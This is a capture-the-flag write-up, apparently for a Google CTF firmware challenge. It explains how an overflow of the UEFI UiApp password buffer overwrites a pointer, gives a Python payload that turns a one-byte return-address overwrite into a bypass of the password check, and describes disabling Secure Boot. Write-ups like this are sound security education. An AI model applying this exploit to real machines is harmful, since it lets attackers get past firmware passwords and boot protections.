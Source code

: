 ```
/home/google-ctf/edk2/Build/OvmfX64/RELEASE_GCC5/X64/MdeModulePkg/Application/UiApp/UiApp/DEBUG/UiApp.dll
/home/google-ctf/edk2/Build/OvmfX64/RELEASE_GCC5/X64/MdeModulePkg/Universal/BdsDxe/BdsDxe/DEBUG/BdsDxe.dll
/home/google-ctf/edk2/Build/OvmfX64/RELEASE_GCC5/X64/OvmfPkg/Sec/SecMain/DEBUG/SecMain.dll
...

```
First check out the `UiApp.dll` for reversing BIOS. There is a simple overflow, password buffer has the length 0x80 byte, but we are able to input 0x8b byte to it, it can just right overwrite the data pointer for 4 byte.
For now, we can write everywhere. We decided to overwrite some function pointer to continue booting, but the content to write was uncontrollable, it like the hash value of the password.
Finally we decided to find the password which last byte of hash is nearby enough offset, return address is at `0x7ec18b8`, we overwrite the pointer with `0x7ec18b8 - 0x20 + 1` to overflow the return address for just one byte.
For this password payload:

```python
p = '\x05' * 0x20
p = p.ljust( 0x20 , '\x01' )
p = p.ljust( 0x88 , 'a' )
p += p32( 0x7ec18b8 - 0x20 + 1 )

```
the last byte of hash value of this password is `\x13`, and the original return address is `0x67d4d34`. We overflow it to let it become `0x67d4d13`:

```nasm
   0x67d4d13:	sbb    BYTE PTR [rcx],al
   0x67d4d15:	add    dh,al
   0x67d4d17:	add    eax,0x11dfc
   0x67d4d1c:	add    DWORD PTR [rcx+0x11e9d05],ecx
   0x67d4d22:	add    BYTE PTR [rbx+0x118a705],cl
   0x67d4d28:	add    BYTE PTR [rcx+0x11e8d05],cl
   0x67d4d2e:	add    al,ch
   0x67d4d30:	sbb    al,0x61
   0x67d4d32:	add    BYTE PTR [rax],al
   0x67d4d34:	test   al,al
   0x67d4d36:	jne    0x67d4d49
   0x67d4d38:	lea    rcx,[rip+0xa11f]        # 0x67dee5e
   0x67d4d3f:	call   0x67cc3fd
   0x67d4d44:	jmp    0x67d5eb6
=> 0x67d4d49:	cmp    BYTE PTR [rip+0x11e00],0x0        # 0x67e6b50

```
It didn't crash, that was awesome! The `al` was not zero now, so that it will bypass `test al,al` checking and took the branch at `jne    0x67d4d49` then entered the BIOS.
For now, just use some control keys `UP DOWN LEFT RIGHT` to control the BIOS interface.
Disable Secure Boot Configuration, and reset:
* Enter Device Manager
![](https://i.imgur.com/EWx5VU0.png)
* Enter Secure Boot Configuration
![](https://i.imgur.com/7ybGzs7.png)
* Disable it!
![](https://i.imgur.com/YVg0Rjq.png)
* Enjoty the machine.
![](https://i.imgur.com/OIIsQfS.png)
